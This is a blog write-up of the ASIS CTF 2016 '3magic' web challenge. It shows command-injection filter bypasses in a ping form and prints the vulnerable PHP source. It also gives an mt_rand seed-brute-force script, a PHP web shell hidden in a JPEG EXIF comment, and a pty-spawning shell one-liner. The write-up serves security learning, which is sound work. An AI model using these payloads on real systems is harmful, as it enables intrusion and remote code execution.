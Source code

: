 ```yaml
---
layout: post
title: "ASIS CTF 2016: 3magic"
category: Security
date: 2016-05-08 22:30:00 -0700
tags:
  - Security
  - CTF
---
```


We're directed to a web application that provides us with the ability to ping an
arbitrary host.  Like many such web interfaces, this one is vulnerable to
[command injection](https://www.owasp.org/index.php/Command_Injection).  We can
provide flags like -v to get the version of ping being used, but inserting other
characters, like `|`, `;`, or `$()` result in a response of `invalid character
detected`.  Notably, so do spaces and tabs, significantly limiting the ability
to run commands (we'll see how to get around this shortly).

![ping](/img/blog/asis-2016/3magic_start.png)

I spent some time testing various characters and discovered that neither
ampersands nor newlines were included in the filter set, so these could be used
to separate commands.  I could quickly list the files in the current directory
with `&ls`, but couldn't figure out a way to traverse directories.

~~~
files
index.php
pages
~~~

One of my [teammates](http://fadec0d3.blogspot.com/) discovered that you could
use brace expansion to add command arguments, so `&{ls,pages}` lets us list the
pages directory:

~~~
Adm1n1sTraTi0n2.php
ping.php
~~~

`Adm1n1sTraTi0n2.php` looks interesting, but I'd really like to see the source.
Several attempts to get source result in an error of `addr is too long`, which
seems to occur at 15 characters.  Eventually, we hit upon the idea of using the
command `grep -Hr . .` to grep for every line of every file in the current
directory and below.  This looks like `&{grep,-Hr,.,.}` and gives us the source
of every file we're looking at (though not in a very pretty format).  I've
cleaned them up below.

###index.php###
~~~
<html>
<head>
  <title>3magic</title>
<body>
  <li>
    <a href='?page=ping'>ping</a>
  </li>
  <?php
    if ($_SERVER['REMOTE_ADDR'] == '127.0.0.1') {
  ?>
      <li>
      <a href='?page=???'>admin</a>
      </li>
  <?php
    }
  ?>
  <hr>
  <?php
  if (isset($_GET['page'])) {
    $p = $_GET['page'];
    if (preg_match('/(:\/\/)/', $p)) {
      die('attack detected');
    }
    include("pages/".$p.".php");
    die();
  }
  ?>
</body>
</html>
~~~

###ping.php###
~~~
<p>ping</p>
<form action="./?page=ping" method="POST">
  <input type="text" name="addr" placeholder="addr">
  <input type="submit" value="send">
</form>
<textarea style="width: 300px; height: 300px" placeholder="result">
<?php
if (isset($_POST['addr'])) {
  $addr = $_POST['addr'];
  if (preg_match('/[`;$()| \/\'>"\t]/', $addr)) {
    die("invalid character detected");
  }
  if (strpos($addr, ".php") !== false){
    die("invalid character detected");
  }
  if (strlen($addr) > 15) {
    die("addr is too long");
  }
  @system("timeout 2 bash -c 'ping -c 1 $addr' 2>&1");
}
?>
</textarea>
~~~

###Adm1n1sTraTi0n2.php###
~~~
<p>image inspector</p>
<?php
mt_srand((time() % rand(1,10000) + rand(2000,5000))%rand(1000,9000)+rand(2000,5000));
// files directory flushed every 3min
setcookie('test', mt_rand(), time(), '/');
if (isset($_POST['submit'])) {
  $check = getimagesize($_FILES['file']['tmp_name']);
  if($check !== false) {
    echo 'File is an image - ' . $check['mime'];
    $filename = '/var/www/html/3magic/files/'.mt_rand().'_'.$_FILES['file']['name']; // prevent path traversal
    move_uploaded_file($_FILES['file']['tmp_name'], $filename);
    echo "<br>\n";
    system('/usr/bin/file -b '.escapeshellarg($filename));
    echo "<br>\n";
  } else {
    echo "File is not an image";
  }
}
?>
<form action="?page=Adm1n1sTraTi0n2" method="post" enctype="multipart/form-data">
  Select image to upload:
  <input type="file" name="file">
  <input type="submit" value="Upload Image" name="submit">
</form>
~~~

So, we have a file upload with validation to test if the image is, in fact, an image.
(`getimagesize` is pretty hard to fake.)  We can upload arbitrary files, but I'm not
sure if we can get them included thanks to the detection of slashes in the include in
index.php.  There's also the small matter of predicting the value of `mt_rand()` used
in the filename.  On second glance, I realize there's nothing stopping us from
uploading a file whose extension is `.php`, but there's still the matter of
`mt_rand()`.  It actually took me several minutes before I noticed the cookie
being set, leaking a value from `mt_rand()`.  I know `mt_rand` isn't secure and
should be predictable, but I'm not sure how to do it.

It turns out there's a [tool out there](http://download.openwall.net/pub/projects/php_mt_seed/) to find the seed from a returned value of
`mt_rand`, except it turns out it takes about 10 minutes on my laptop.  I
realized the `mt_srand` call to seed `mt_rand` looked a little bit funny with
all the math.  Working it through, I realized that, rather than a full 2**32
range for the seed, the entire working range is only between 3000 and 14000.
With this range, it turned out a small PHP script was a better option to figure
out the next `mt_rand` value:

~~~
<?PHP
for($i=3000;$i<=14000;$i++) {
  mt_srand($i);
  if (mt_rand() == $argv[1]) {
    print mt_rand();
    print "\n";
    break;
  }
}
~~~

With this tool, I was able to predict full filenames, and could upload images
with the extension `.php`.  To get code execution, I added `<?PHP
passthru($_GET['x']); ?>` as the EXIF comment in a JPEG image and uploaded it as
a `.php` file.  I was quickly able to confirm both that my script and the PHP
embedded worked by listing the directory.

Now, to find the flag.  It wasn't in the working directory or the document root,
so I checked the root of the system, and found a file named `flag`, but it
turned out it was only readable by the user `flag`, and I was running as
`www-data`.  However, it turned out that there was also a program `/read_flag`,
but attempting to call it from my PHP shell resulted in a Segmentation Fault.
So I started a shell with netcat, and tried from this shell.  Still, a
segmentation fault.  Maybe it needed a pty?  Fortunately, there's a nice python
one-liner to allocate a pseudo terminal: `python -c "import pty;pty.spawn('/bin/bash')"`
Running `/read_flag` from this point gave results:

~~~
www-data@web-tasks:~/html/3magic/files$ /read_flag
/read_flag
Write "*please_show_me_your_flag*" on my tty, and I will give you flag :)
*please_show_me_your_flag*
*please_show_me_your_flag*
ASIS{015c6456955c3c44b46d8b23d8a3187c}
~~~
